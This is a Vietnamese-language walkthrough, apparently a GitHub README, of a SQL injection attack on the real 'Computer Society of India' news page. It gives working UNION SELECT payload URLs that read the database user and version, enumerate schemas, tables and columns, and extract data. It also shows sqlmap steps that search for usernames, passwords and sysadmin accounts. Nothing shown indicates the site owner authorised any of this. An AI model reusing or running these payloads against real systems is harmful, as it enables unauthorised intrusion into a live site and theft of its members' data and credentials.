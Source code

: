 ![image](https://github.com/user-attachments/assets/1f6ce828-ece4-4dbc-b73b-101840432cf3)# TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

## Kiểm tra database, version, user 

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)

![image](https://github.com/user-attachments/assets/0f51fac4-636d-4fd7-9484-61a5228846b6)

![image](https://github.com/user-attachments/assets/8e4d4498-7349-4421-8d82-4454e266ccb6)



